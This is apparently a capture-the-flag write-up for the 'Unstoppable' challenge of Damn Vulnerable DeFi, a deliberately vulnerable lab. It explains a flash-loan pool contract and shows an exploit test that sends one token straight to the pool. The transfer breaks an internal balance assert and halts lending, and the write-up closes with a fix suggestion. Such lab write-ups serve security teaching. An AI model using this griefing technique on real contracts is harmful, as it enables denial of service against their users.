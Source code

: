 # Unstoppable

## Introduction

The goal is stop pool from offering flash loan.
How does flash loan works?
In simple terms, flash loan are broken down into 3 steps and to be completed in a single transaction.
1) A loan from a pool of money is sent to receiver.
2) Receiver will use the money to execute a certain action from another smart contract.
3) Receiver will return the money with fixed rate (Something like an interest rate).

Reference: <https://10clouds.com/blog/defi/understanding-flash-loans-in-defi/>

## Code Breakdown

Let's start by breaking down the source code into functions.
There are two files - ***UnstoppableLender.sol*** and ***ReceiverUnstoppable.sol***.
***UnstoppableLender.sol*** will loan money to receiver and execute functions from ***ReceiverUnstoppable.sol***.

However, we'll look at ***UnstoppableLender.sol*** primarily.

There are a few variables declared, one consutructors and two functions in the smart contract.

For starters, this contract mainly use damnValuableToken as their main currency - ```IERC20 public immutable damnValuableToken```.
Openzeppelin is used to create the token.

Reference: <https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20>

```uint256 public poolBalance``` is created to store a pool token ready to be loaned. 

Next, a constructor is called whenever the smart contract is deployed.
Next, the tokens will be named as ***damnValuableToken***.
```
constructor(address tokenAddress) {
    require(tokenAddress != address(0), "Token address cannot be zero");
    damnValuableToken = IERC20(tokenAddress);
}
```
It requires ***tokenAddress*** and it performs a check if the address is 0. This will ensure the address integrity.

Now, we can talk about the functions in question.
Let's start with ***depositTokens***.
```
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

The functions require ***amount*** to be specified and more than 0 when it's called.
As part of an innate function from openzeppelin IERC20 , ```damnValuableToken.transferFrom(msg.sender, address(this), amount);``` will then transfer ```amount``` to ```address(this)``` from ```msg.sender```.
```msg.sender``` = sender address (deployer).
```address(this)``` = receiver address (pool smart contract address).
```amount``` = amount of tokens deposited to pool.

***poolBalance*** will be updated along with the new amount.
Note that this is the only place where ***poolBalance*** can be updated.


Next, ***flashLoan*** is the main function to execute a flash loan.
```
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
    
    damnValuableToken.transfer(msg.sender, borrowAmount);
    
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
    
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

I'll breakdown a few requirements quickly.
```require(borrowAmount > 0, "Must borrow at least one token");``` = Amount borrowed must be more than 1 token.
```require(balanceBefore >= borrowAmount, "Not enough tokens in pool");``` = Current amount of tokens in the pool must be more than amount borrowed.
```assert(poolBalance == balanceBefore);``` = Current amount of tokens in poolBalance must be the same before the flashloan.
```damnValuableToken.transfer(msg.sender, borrowAmount);``` = Token transferred to receiver.
```IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);``` = Execute function in another contract ***ReceiverUnstoppable.sol***. 

During this function, tokens loaned to receiver will be returned to pool.
```require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");``` = Amount of tokens after loaned must be more than the amount of tokens before the loan

## Hints
The goal is to stop the smart contract from functioning. 
Take a look at this section ```assert(poolBalance == balanceBefore);```.

Technically, there exist 2 pool balance - 1 in ***UnstoppableLender.sol** and ***DamnValuableToken.sol***.

Notice that ***poolBalance*** must be equal to ***balanceBefore***. These are the 2 pool balance
***poolBalance*** can only be increased from the function ***depositTokens***.
***balanceBefore*** checks for the current tokens in the pool directly from ***DamnValuableToken.sol*** (openzeppelin innate function). 
Therefore, both variables are async.
A simple solution is to transfer token directly into ***DamnValuableToken.sol*** to trigger a revert in ```assert(poolBalance == balanceBefore);```.

## Solution
Here's the solution (I've added 2 functions in ***ReceiverUnstoppable.sol*** to retrieve the number of tokens in the pool).
```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    //Before Transfer
    before_bal1 = await this.pool.getPoolBal();
    before_bal2 = await this.pool.getTokenBal();
    console.log("Before transfer:\nBalance from ReceiverUnstoppable.sol - ", before_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", before_bal2.toString());

    //Transfer token to halt flashloan services
    console.log("Transferring 1 token to DamnValuableToken.sol pool");
    await this.token.transfer(this.pool.address, 1);

    //After Transfer
    after_bal1 = await this.pool.getPoolBal();
    after_bal2 = await this.pool.getTokenBal();
    console.log("After transfer:\nBalance from ReceiverUnstoppable.sol - ", after_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", after_bal2.toString());
});
```

Functions added to reflect the result below
```
function getPoolBal() public view returns (uint256){
    return poolBalance;
}

function getTokenBal() public view returns (uint256){
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    return balanceBefore;
}
```

Here's the result 
```
Before transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000000
Transferring 1 token to DamnValuableToken.sol pool
After transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000001
```


## Recommendations
By no means you should ever need two set of pools. For the sake of this challenge, one simple solution is to sync ***poolBalance*** and ***damnValuableToken.balanceOf(address(this))*** whenever a new token is transferred into either pool. Although it will create a whole new magntitude of problem but hey, at least its solved. :)
